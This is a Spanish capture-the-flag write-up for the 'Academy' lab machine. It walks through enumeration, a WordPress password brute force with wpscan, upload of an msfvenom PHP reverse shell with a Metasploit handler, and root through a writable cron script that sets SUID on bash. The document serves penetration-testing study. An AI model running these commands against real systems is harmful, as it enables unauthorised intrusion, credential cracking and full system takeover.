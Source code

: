 ```yaml
---
tags:
  - Cybersecurity
  - Labs
  - HackMyVM
  - Easy
  - Linux
  - WordPress
  - FileUpload
  - PrivilegeEscalation
  - CRON
---
```

- [[#Enumeración|Enumeración]]
	- [[#Enumeración#Ping|Ping]]
	- [[#Enumeración#Nmap|Nmap]]
	- [[#Enumeración#HTTP|HTTP]]
		- [[#HTTP#Fuzzing Web|Fuzzing Web]]
- [[#Explotación|Explotación]]
	- [[#Explotación#WordPress|WordPress]]
	- [[#Explotación#Escalada de privilegios|Escalada de privilegios]]
	- [[#Explotación#Tareas CRON|Tareas CRON]]

---
# Resolviendo la máquina Academy

>En esta publicación, comparto cómo resolví la máquina **Academy** de [The Hackers Labs](https://labs.thehackerslabs.com/machine/1).

---
## Enumeración
### Ping

Ejecutamos un *ping* para comprobar la conectividad y obtener pistas sobre el sistema operativo.

`ping -c 1 192.168.1.136`

![[Pasted image 20250720182702.png]]

*TTL=64* -> **Linux**
### Nmap

`nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 192.168.1.136 -oG allPorts`

![[Pasted image 20250720182819.png]]

`nmap -p22,80 -sCV 192.168.1.136 -oN targeted`

![[Pasted image 20250720182845.png]]
### HTTP

`http://192.168.1.136/`

![[Pasted image 20250720183319.png]]
#### Fuzzing Web

`gobuster dir -u http://192.168.1.136/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt`

![[Pasted image 20250720183420.png]]

`http://192.168.1.136/wordpress/`

![[Pasted image 20250720183511.png]]

Se observa que no carga correctamente.

![[Pasted image 20250720183602.png]]

Se añade el dominio al archivo `/etc/hosts`

`echo "192.168.1.136 academy.thl" >> /etc/hosts`

![[Pasted image 20250720183822.png]]

Se vuelve a realizar *Fuzzing Web*.

`gobuster dir -u http://192.168.1.136/wordpress/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt`

![[Pasted image 20250720184105.png]]

Se accede al directorio: `http://192.168.1.136/wordpress/wp-admin`.

![[Pasted image 20250720184235.png]]

---
## Explotación
### WordPress

`wpscan --url http://192.168.1.136/wordpress/ --enumerate u,vp`

![[Pasted image 20250720184508.png]]
![[Pasted image 20250720184538.png]]

Se encuentra el usuario *dylan*.

`wpscan --url http://192.168.1.136/wordpress/ --passwords /usr/share/wordlists/rockyou.txt --usernames dylan`

![[Pasted image 20250720184852.png]]
![[Pasted image 20250720184913.png]]

Se introduce la contraseña en el panel de control de *WordPress*.

![[Pasted image 20250720185010.png]]

Se genera un *payload malicioso*.

`msfvenom -p php/reverse_php LHOST=192.168.1.127 LPORT=1234 -f raw > pwned.php`

Se sube el archivo generado anteriormente, mediante *Bit File Manager*.

![[Pasted image 20250720190008.png]]

Nos ponemos en escucha en el puerto 1234.

`nc -nlvp 1234`

`http://192.168.1.136/wordpress/pwned.php`

Se crea un script automático para ejecutar el *multi/handler*.

`vin handler.rc`

```
use multi/handler
set LHOST 192.168.1.127
set LPORT 1234
run
```

`msfconsole -r handler.rc`

Cuando se recibe la conexión en el puerto de 1234, se realiza una *reverse shell* para establecer una conexión estable.

![[Pasted image 20250720190823.png]]

![[Pasted image 20250720190846.png]]

`background`

`sessions -u 1`

`sessions 2`

`sysinfo`

![[Pasted image 20250720191034.png]]

`getuid`

![[Pasted image 20250720191052.png]]
### Escalada de privilegios

`cd /opt`

`cat backup.py`

![[Pasted image 20250720192608.png]]

Se encuentra la contraseña del usuario *dylan*, con el cual se accedió previamente a **WordPress**, aunque dicho usuario no existe como cuenta local en el sistema.
### Tareas CRON

Se descarga la herramienta [pspy64](https://github.com/DominicBreuker/pspy). 

Para poder ver las tareas **CRON** que se ejecutan en la máquina víctima.

Se descarga en nuestra máquina.

Se mueve el archivo descargado al directorio actual.

`mv /home/manumore/Descargas/pspy64 .`

`python3 -m http.server 80`

Se descarga en la máquina victima y se dan permisos.

`wget 192.168.1.127/pspy64`

`chmod 777 pspy64`

Se ejecuta el archivo descargado.

`./pspy64`

Se observa una tarea **CRON**, pero que el archivo que llama no existe en la ruta que indica.

![[Pasted image 20250720200322.png]]

Al tener permisos de escritura sobre `/opt`, se puede abusar de la tarea **CRON** que busca ejecutar un script inexistente (`backup.sh`).

![[Pasted image 20250720200607.png]]

Se crea el archivo: `backup.sh`.

`echo 'chmod u+s /bin/bash' >> backup.sh`

Se da permisos.

`chmod +x backup.sh`

Se espera a que se ejecuta la tarea **CRON** se ejecute automáticamente.

`bash -p`

![[Pasted image 20250720201622.png]]

---